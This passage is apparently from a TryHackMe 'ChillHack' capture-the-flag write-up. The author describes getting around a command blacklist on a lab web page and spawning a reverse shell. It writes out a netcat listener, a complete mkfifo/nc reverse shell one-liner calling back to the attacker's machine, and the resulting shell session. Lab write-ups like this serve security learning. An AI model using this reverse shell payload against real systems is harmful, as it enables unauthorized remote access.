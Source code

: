 ![Untitled](Tryhackme%20ChillHack%20Room%206eb8ce85ee0f4889b064e4d65b678c03/Untitled%203.png)

From the source code i can see that some commands are blacklisted. Many of them can be used to spawn a reverse shell.

i tried to spawn a reverse shell using it’s full path. 

i started a listtener on my machine and pasted my reverse shell payload into the comand parameter

```jsx
nc -nlvp 1990
listening on [any] 1990 ...
connect to [YOUR VPN IP] from (UNKNOWN) [YOUR VPN IP] 52466
```

```jsx
/bin/rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc YOUR VPN IP 1990 >/tmp/f
```

******************************BOOM!!1 we got a shell******************************

```jsx
nc -nlvp 1990
listening on [any] 1990 ...
connect to [10.8.110.7] from (UNKNOWN) [10.10.29.87] 52466
sh: 0: can't access tty; job control turned off
$ ls
images
index.php
```
